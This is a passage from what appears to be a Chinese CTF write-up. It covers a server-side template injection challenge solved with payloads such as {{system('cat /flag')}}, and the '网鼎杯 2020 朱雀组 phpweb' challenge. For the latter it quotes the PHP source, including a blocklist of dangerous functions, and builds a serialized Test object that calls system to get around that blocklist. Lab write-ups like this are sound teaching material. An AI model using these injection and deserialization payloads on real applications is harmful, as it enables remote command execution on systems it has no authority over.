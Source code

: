 输入什么回显什么，测试加`'`加`or '1=1'`都回显的是本身的内容，测试模板注入`{{1+2}}`发现回显`3`

```
{{system('ls')}}
{{system('cat /flag')}}
```

## [网鼎杯 2020 朱雀组]phpweb

这里那么多函数被禁了，主要还是禁了`system`比较难受，但是问题不大，毕竟没有禁`file_get_contents`、`cat`以及`serialize`。

`file_get_contents`读取`index.php`

```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```

构造反序列化`Test`类

```php
<?php

class Test {
    var $p = "ls /";
    var $func = "system";
    function __destruct() {
        if ($this->func != "") {
            echo gettime($this->func, $this->p);
        }
    }
}
$a = new Test();
echo serialize($a);
```